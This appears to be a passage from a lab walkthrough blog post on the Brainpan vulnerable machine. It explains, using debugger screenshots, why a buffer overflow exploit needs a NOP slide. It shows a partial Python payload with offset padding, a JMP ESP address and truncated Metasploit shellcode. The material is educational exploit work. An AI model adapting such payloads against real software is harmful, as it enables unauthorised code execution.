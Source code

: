 # Need of NOPs in BO

If we do not give nops in our buffer overflow payload. The following behavior happens.

```text
#payload without nops

JMP_ESP = 0x311712f3

shellcode = ""
shellcode += "\xbd\x67\x82\x22\x2a\xdd\xc2\xd9\x74\x24\xf4\x58"
...

payload = 'A' * 524
payload += struct.pack("I", JMP_ESP) # encode the int
payload += shellcode
payload += '\r\n'
```

![ida\_brainpan\_crash\_ill.png](https://l3nblog.files.wordpress.com/2018/03/ida_brainpan_crash_ill.png?w=663)

Aaaaaand it crashed.

I got pretty confused, I had never used msf payloads for exploitation and I even read other walkthroughs on this machine but all used a nop slide which to be fair didn’t make sense to me since we knew exactly what was the ESP address.

Until I proceeded to single step in the shellcode and notice this instruction:

![ida\_brainpan\_shellcode.png](https://l3nblog.files.wordpress.com/2018/03/ida_brainpan_shellcode.png?w=663)

So… ESP points to 0x0028F920, and that instruction is, according to [Intel’s manual](https://software.intel.com/en-us/articles/intel-sdm#combined), this is storing the _FPU operating environment_ to _\[esp-0xC\]_, so this is overwriting our instructions!

We can check this by single-stepping the instruction:

![x32dbg\_brainpan\_instructions\_overwritten.png](https://l3nblog.files.wordpress.com/2018/03/x32dbg_brainpan_instructions_overwritten.png?w=663)

This is why we need to use a nop slide.

